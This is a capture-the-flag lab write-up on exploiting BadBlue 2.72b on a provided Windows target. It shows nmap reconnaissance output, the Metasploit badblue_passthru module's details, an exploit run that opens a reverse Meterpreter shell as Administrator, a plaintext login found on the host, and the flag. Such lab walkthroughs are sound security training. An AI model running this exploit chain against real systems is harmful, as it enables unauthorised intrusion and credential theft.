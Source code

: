 # Windows: Easy File Sharing Server

## Mision

Kali GUI machine and a target machine running a vulnerable easy file sharing server are provided to you. The IP address of the target machine is provided in a text file named target placed on the Desktop of the Kali machine (/root/Desktop/target).  

Your task is to fingerprint the application using the tools available on the Kali machine and then exploit the application using the appropriate Metasploit module.

Objective: Exploit the application and retrieve the flag!

## Instructions:

Your Kali machine has an interface with IP address 10.10.X.Y. Run “ip addr” to know the values of X and Y.
The IP address of the target machine is mentioned in the file “/root/Desktop/target”
Do not attack the gateway located at IP address 192.V.W.1 and 10.10.X.1

## Notes

- **Target IP Address:** 10.4.19.179
- **eth1:** 10.0.0.5
- Microsoft file sharing SMB: User Datagram Protocol (UDP) ports from 135 through 139 and Transmission Control Protocol (TCP) ports from 135 through 139. Direct-hosted SMB traffic without a network basic input/output system (NetBIOS): port 445 (TCP and UPD).

## nmap (sudo nmap -p- -vv -T4 -sC -sV 10.4.19.179)

    root@attackdefense:~# sudo nmap -p- -vv -T4 -sC -sV 10.4.19.179
   
    Discovered open port 139/tcp on 10.4.19.179
    Discovered open port 80/tcp on 10.4.19.179
    Discovered open port 3389/tcp on 10.4.19.179
    Discovered open port 445/tcp on 10.4.19.179
    Discovered open port 135/tcp on 10.4.19.179
    Discovered open port 49162/tcp on 10.4.19.179
    Discovered open port 47001/tcp on 10.4.19.179
    Discovered open port 49155/tcp on 10.4.19.179
    Discovered open port 5985/tcp on 10.4.19.179
    Discovered open port 49154/tcp on 10.4.19.179
    Discovered open port 49152/tcp on 10.4.19.179
    Discovered open port 49164/tcp on 10.4.19.179
    Discovered open port 49153/tcp on 10.4.19.179
    
    Host is up, received timestamp-reply ttl 125 (0.0094s latency).
    Scanned at 2022-04-05 07:35:18 IST for 376s
    PORT      STATE SERVICE            REASON          VERSION
    80/tcp    open  http               syn-ack ttl 125 BadBlue httpd 2.7
    | http-methods: 
    |_  Supported Methods: HEAD
    135/tcp   open  msrpc              syn-ack ttl 125 Microsoft Windows RPC
    139/tcp   open  netbios-ssn        syn-ack ttl 125 Microsoft Windows netbios-ssn
    445/tcp   open  microsoft-ds       syn-ack ttl 125 Microsoft Windows Server 2008 R2 - 2012 microsoft-ds
    3389/tcp  open  ssl/ms-wbt-server? syn-ack ttl 125
    | ssl-cert: Subject: commonName=WIN-OMCNBKR66MN
    | Issuer: commonName=WIN-OMCNBKR66MN
    | Public Key type: rsa
    | Public Key bits: 2048
    | Signature Algorithm: sha256WithRSAEncryption
    | Not valid before: 2022-04-04T01:59:24
    | Not valid after:  2022-10-04T01:59:24
    | MD5:   c576 b09d 3c24 26bb 1c68 6875 1342 e8d1
    | SHA-1: 9f6a 9598 368e ea6c ad28 2b0b 9b0b 3ce2 2d51 2e31
    | -----BEGIN CERTIFICATE-----
    | MIIC4jCCAcqgAwIBAgIQQ9DUVdWNybdB2e3EcXjgWTANBgkqhkiG9w0BAQsFADAa
    | MRgwFgYDVQQDEw9XSU4tT01DTkJLUjY2TU4wHhcNMjIwNDA0MDE1OTI0WhcNMjIx
    | MDA0MDE1OTI0WjAaMRgwFgYDVQQDEw9XSU4tT01DTkJLUjY2TU4wggEiMA0GCSqG
    | SIb3DQEBAQUAA4IBDwAwggEKAoIBAQDLBmXZHO1t8bkc+4GKoJKilb9kMm7vO3CT
    | RnmlGCujUSkj23r0shVsKJ5aMaLS1BN2HIkUf2DoHLB+9S7JcfXx6yGHDndpn0n1
    | Lm/DH7lgpIfCzcbwtjmRwxnfRSeZciV5kyoW/l2gGcTD4DMNtIaU9fEL/lM3G3GY
    | L1kly4/InGRlVavYkTKJVWPA8xLN1oMdYVpCN8FZJgGTFQfOgviNtkgpfMJvQoZ4
    | yXx2hS4V6PTKUKOd3f+cXVMgXNuW4XKxRK7JbDvJMZSDq1trSX0Osf0pZ0HWR47X
    | zxYP9auyAwsj1dkuhnPBp1je+VSEnOOM4AXIw/GciM4FRbzWEj5RAgMBAAGjJDAi
    | MBMGA1UdJQQMMAoGCCsGAQUFBwMBMAsGA1UdDwQEAwIEMDANBgkqhkiG9w0BAQsF
    | AAOCAQEANwsZPTyrLElncRBOpALdS5AwDbQSF89xRFp6thKC+x7JeO2WMJRpUNJv
    | pwVEQAkvvkBFwg3RKTDdTC6XHzZw1dBpQBgmx0Sfpl9cmqDHLQ9qtCwrk7cXwND8
    | tQNJDz6AY9T2b37M3HS9k8W5Jfn6qMg9oI0nDYL/vxW+yR3lQ1mdqBWMRT8+roaD
    | WnejQGErNJtjN9iYMn+Hxoa0DrJSiL/DaUhERgQhqmuW8kocUrYCkjE4qQbTi7Ze
    | 8NVyqKYRuc+aeCi5AebyAD9S+ozSWeDex/dYR4ag3W2O4KmiDdu3qnkAJ/XoHuAu
    | YQNS53CqXlH4o9T39V1h04KqE8Z6/A==
    |_-----END CERTIFICATE-----
    5985/tcp  open  http               syn-ack ttl 125 Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
    |_http-server-header: Microsoft-HTTPAPI/2.0
    |_http-title: Not Found
    47001/tcp open  http               syn-ack ttl 125 Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
    |_http-server-header: Microsoft-HTTPAPI/2.0
    |_http-title: Not Found
    49152/tcp open  msrpc              syn-ack ttl 125 Microsoft Windows RPC
    49153/tcp open  msrpc              syn-ack ttl 125 Microsoft Windows RPC
    49154/tcp open  msrpc              syn-ack ttl 125 Microsoft Windows RPC
    49155/tcp open  msrpc              syn-ack ttl 125 Microsoft Windows RPC
    49162/tcp open  msrpc              syn-ack ttl 125 Microsoft Windows RPC
    49164/tcp open  msrpc              syn-ack ttl 125 Microsoft Windows RPC
    Service Info: OSs: Windows, Windows Server 2008 R2 - 2012; CPE: cpe:/o:microsoft:windows

    Host script results:
    |_clock-skew: mean: 0s, deviation: 0s, median: 0s
    | p2p-conficker: 
    |   Checking for Conficker.C or higher...
    |   Check 1 (port 3580/tcp): CLEAN (Couldn't connect)
    |   Check 2 (port 45793/tcp): CLEAN (Couldn't connect)
    |   Check 3 (port 47903/udp): CLEAN (Timeout)
    |   Check 4 (port 29415/udp): CLEAN (Failed to receive data)
    |_  0/4 checks are positive: Host is CLEAN or ports are blocked
    | smb-security-mode: 
    |   authentication_level: user
    |   challenge_response: supported
    |_  message_signing: disabled (dangerous, but default)
    | smb2-security-mode: 
    |   2.02: 
    |_    Message signing enabled but not required
    | smb2-time: 
    |   date: 2022-04-05 07:41:27
    |_  start_date: 2022-04-05 07:29:22


## MSFCONSOLE windows/http/badblue_passthru

    msf5 exploit(windows/http/badblue_passthru) > info

        Name: BadBlue 2.72b PassThru Buffer Overflow
        Module: exploit/windows/http/badblue_passthru
    Platform: Windows
        Arch: 
    Privileged: Yes
        License: Metasploit Framework License (BSD)
        Rank: Great
    Disclosed: 2007-12-10

    Provided by:
    MC <mc@metasploit.com>

    Available targets:
    Id  Name
    --  ----
    0   BadBlue EE 2.7 Universal
    1   BadBlue 2.72b Universal

    Check supported:
    No

    Basic options:
    Name     Current Setting  Required  Description
    ----     ---------------  --------  -----------
    Proxies                   no        A proxy chain of format type:host:port[,type:host:port][...]
    RHOSTS   10.4.19.179      yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
    RPORT    80               yes       The target port (TCP)
    SSL      false            no        Negotiate SSL/TLS for outgoing connections
    VHOST                     no        HTTP server virtual host

    Payload information:
    Space: 750
    Avoid: 15 characters

    Description:
    This module exploits a stack buffer overflow in the PassThru 
    functionality in ext.dll in BadBlue 2.72b and earlier.

    References:
    https://cvedetails.com/cve/CVE-2007-6377/
    OSVDB (42416)
    http://www.securityfocus.com/bid/26803

## MSFCONSOLE Exploit

    msf5 exploit(windows/http/badblue_passthru) > exploit

    [*] Started reverse TCP handler on 10.10.0.5:4444 
    [*] Trying target BadBlue EE 2.7 Universal...
    [*] Sending stage (180291 bytes) to 10.4.19.179
    [*] Meterpreter session 1 opened (10.10.0.5:4444 -> 10.4.19.179:49240) at 2022-04-05 07:47:22 +0530

    meterpreter > getuid
    Server username: WIN-OMCNBKR66MN\Administrator

## Treasure

    [SECURITY_NT]
    groupdomain=domainname
    logonasuser=fred
    logonaspassword=secret

    Meterpreter > dir
    Listing: C:\
    ============

    Mode                 Size                Type  Last modified                    Name
    ----                 ----                ----  -------------                    ----
    40777/rwxrwxrwx      0                   dir   2020-08-12 09:43:47 +0530        $Recycle.Bin
    100666/rw-rw-rw-     1                   fil   2013-08-22 21:16:48 +0530        BOOTNXT
    40777/rwxrwxrwx      0                   dir   2013-08-22 20:18:41 +0530        Documents and Settings
    40777/rwxrwxrwx      0                   dir   2013-08-22 21:09:30 +0530        PerfLogs
    40555/r-xr-xr-x      4096                dir   2013-08-22 19:06:16 +0530        Program Files
    40777/rwxrwxrwx      4096                dir   2013-08-22 19:06:16 +0530        Program Files (x86)
    40777/rwxrwxrwx      4096                dir   2013-08-22 19:06:16 +0530        ProgramData
    40777/rwxrwxrwx      0                   dir   2020-09-05 09:16:25 +0530        System Volume Information
    40555/r-xr-xr-x      4096                dir   2013-08-22 19:06:16 +0530        Users
    40777/rwxrwxrwx      24576               dir   2013-08-22 19:06:16 +0530        Windows
    100444/r--r--r--     398356              fil   2013-08-22 21:16:48 +0530        bootmgr
    100666/rw-rw-rw-     32                  fil   2020-09-16 14:31:09 +0530        flag.txt
    356011620/rw--w----  296952234959208431  fif   9419046029-08-22 23:01:44 +0530  pagefile.sys

    meterpreter > cat flag.txt
    `70a569da306697d64fc6c19afea37d94`
